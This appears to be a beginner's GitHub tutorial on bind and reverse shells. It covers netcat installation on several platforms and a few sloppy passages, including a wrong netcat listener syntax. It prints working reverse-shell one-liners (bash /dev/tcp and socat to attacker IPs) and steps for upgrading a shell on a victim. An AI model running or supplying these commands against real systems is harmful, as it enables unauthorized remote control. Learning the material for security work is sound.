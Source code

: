 ### Shells (Hack Responsibly)

## Introduction
Gaining a shell on your attack system is the ultimate goal , this way the impact of the vulnerability can be stressed.

According to wiki "a shell is a computer program which exposes an operating system's services to a human user or other programs.". now let's think of it this way , say you want total control of a system, you want to be able to switch it on , use it's camera , transfer its file and so on. the easiest way this could be done is to have physical access to the device. Another way, is to be able to control this system in question remotely (you can stay in your office in another country and access your files and computer usage from home).
A malicious attacker with unauthorized access with unauthorized access may also be able to do .if your system is compromised , just like you they dont have to be in thesame physical location to do this.
Now most of the time this compromise happens. the attacker access and controls your computer by typing commands through this shell, which in turn takes these commands typed and execute accordingly (most of the time, sometimes it asks if you are allowed to execute these commands).
An example of this is typing "shutdown now" on your unix system and watch your computer literaly shutdown, you dont have to press any button or click any beautiful GUI for this to happen, just a coomand lets it. i think i've explained this as best as i can .[check this wikipedia for more detailed explanation](https://en.wikipedia.org/wiki/Shell_(computing))



## Executing Shell

There are two ways to access a shell (bind shell and reverse shell)
1. you connect to the computer in question (bind)
2. the computer connects to you (reverse)

**The Bind shell** is rarely used in practice, due to firewalls that restricts imbound connection . dynamic IP addresses etc . In the case of a bind shell you make a connection to the user , that means the user has to be waiting (listening ) for connection and you connect to it. for this to work you will need the IP address of the system and the port you want to make connection to . note: once the IP address changes there is no way for you to access the system unless ofcourse you find its new IP

## Using Netcat for a bind shell 
First we need to install netcat.

### 🔌 Installing Netcat (`nc`) on Android, Windows, and Linux

Netcat (often abbreviated as `nc`) is a powerful network tool used for reading from and writing to network connections using TCP or UDP.

---

### 📱 Android

#### Option 1: Using Termux (Recommended)
1. Install [**Termux**](https://f-droid.org/en/packages/com.termux/) from F-Droid.
2. Run the following commands in Termux:
   ```bash
   pkg update
   pkg install netcat
✅ Netcat will be installed as nc.

Option 2: Using BusyBox (Root Required)
Install BusyBox from Play Store or F-Droid.

Open a terminal emulator or ADB shell:

bash
Copy
Edit
busybox nc
🪟 Windows
Option 1: Using Nmap's Ncat
Download and install Nmap from https://nmap.org/download.html.

Use Ncat (a Netcat-compatible tool) from the command line:

powershell
Copy
Edit
ncat.exe -l -p 4444
Option 2: Standalone Netcat Binary
Download from a trusted source like https://eternallybored.org/misc/netcat/.

Extract and run from Command Prompt:

cmd
Copy
Edit
nc.exe -l -p 4444
🐧 Linux
Debian/Ubuntu-based:
bash
Copy
Edit
sudo apt update
sudo apt install netcat
Arch-based:
bash
Copy
Edit
sudo pacman -S gnu-netcat
RHEL/CentOS/Fedora:
bash
Copy
Edit
sudo dnf install nmap-ncat
✅ Verify Installation
Run one of the following commands:

bash
Copy
Edit
nc --version
# or
ncat --version
ℹ️ Note: Depending on your OS and install method, the command may be nc, netcat, or ncat.

Feel free to open an issue or PR if you encounter platform-specific differences!

  ## Using Netcat for a bind shell
     Attacker's Host: nc <IP> <port> # makes connection to remote machine (looks for machine with that IP and has that port opened and makes a connection to it)
     Remote Machine: nc -nvlp <IP> # listens for connection (waits for someone to connect to its machine through that port)
  ## Using Netcat for a reverse shell
      Attacker's Host: nc -nlvp <PORT> # The attacker waits for the host to connect to its own machine , in this case its the one listening for connection)
      Remote Machine: nc <IP> <PORT> # Remote machine has the IP address of the attacker and makes connection to it ( well the attacker has a static IP that wont be chabging anytime soon)
      Or :bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    
 PS: Only netcat is mentioned here , there are tons of tools to make reverse connection [check payloadallthethings for reverse shell with other tools ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
     

### Shell Codes
  Describe code executed by a target program due to a vulnerability exploit and used to open a remote shell 
  

### Upgrading Simple Shells to Fully Interactive TTYs
using python

  on victim:
     
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    
    (press on your keyboard) Ctrl+Z

    (press on your keyboard) Enter

   on your local host: stty raw -echo

   on your local host:
   
      fg (you will not see your keystrokes -- trust yourself and hit Enter)

      (press on your keyboard) Enter

      (press on your keyboard) Enter

   on the victim: 
   
      export TERM=xterm

  
    
 using socat:
 on host(attacker):
 
    socat file:`tty`,raw,echo=0 tcp-listen:4444
  
 on victim :
 
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
  
    
    
  
